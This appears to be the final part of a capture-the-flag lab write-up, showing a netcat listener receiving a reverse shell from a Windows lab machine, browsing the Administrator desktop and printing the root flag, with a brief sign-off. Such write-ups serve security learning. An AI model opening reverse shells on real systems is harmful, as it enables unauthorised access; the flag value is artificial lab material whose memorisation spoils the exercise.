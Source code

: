 ```bash
└─$ nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.8.4.19] from (UNKNOWN) [10.10.142.54] 49381
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

...

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of c:\Users\Administrator\Desktop

10/12/2020  12:05 PM    <DIR>          .
10/12/2020  12:05 PM    <DIR>          ..
10/12/2020  12:05 PM             1,528 activation.ps1
09/27/2019  05:41 AM                32 root.txt
               2 File(s)          1,560 bytes
               2 Dir(s)  44,152,864,768 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
fl4g_0f_st33l_mR_R0b07_fl4G

```
hehe! nice room! the most interesting part is probably the privilege escalation!
don't forget to leave a readme file with "Leave me here!" as content
(It's very important!)

take care, friend!
